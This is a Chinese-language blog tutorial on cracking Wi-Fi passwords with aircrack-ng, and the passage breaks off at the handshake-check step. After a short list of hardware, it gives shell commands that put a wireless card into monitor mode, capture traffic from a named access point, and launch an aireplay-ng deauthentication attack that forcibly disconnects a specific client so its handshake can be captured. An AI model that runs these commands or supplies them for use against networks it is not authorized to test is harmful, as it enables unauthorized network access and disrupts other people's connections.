 ```yaml
---
title: 用aircrack-ng破解wifi密码
author: 黄俭
date: '2020-07-02'
slug: aircrack-ng-wifi-crack
categories:
  - Computer
tags:
  - Linux
---
```


## 准备阶段
 - 外置USB网卡，我用的是老古董网卡，D-Link的AirPlus G DWL-G122.
 - 安装aircrack-ng。我是在CentOS 7 for RASPBERRY PI上编译安装，前期要装的包有......。
 
## 实战阶段
1. 杀死一些影响监听的进程
```shell
 # airmon-ng check kill
```

1. 将无线网卡设定为监听状态
```shell
 # airmon-ng start wlp1s0u1u4
```
执行结果截图
![图1 airmon-ng启动网卡的监听状态](http://123.56.98.124:8080/picLIB/upload/15/2020-07-02%2011-47-27%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

1. 查看监听网卡名
```shell
 # iwconfig
```

1. 开始监听
```shell
 # airodump-ng wlp2s0mon
```

1. 选择破解目标

1. 开始抓包
```shell
 # airodump-ng wlp3s0mon --bssid FE:7C:02:54:57:AD -c 4 -w ~/wifi_hack/HR658
```

1. 进行断线攻击
```shell
 # aireplay-ng -0 10  -a FE:7C:02:54:57:AD -c EC:89:14:68:61:17  wlp3s0mon
```
1. 检查握手包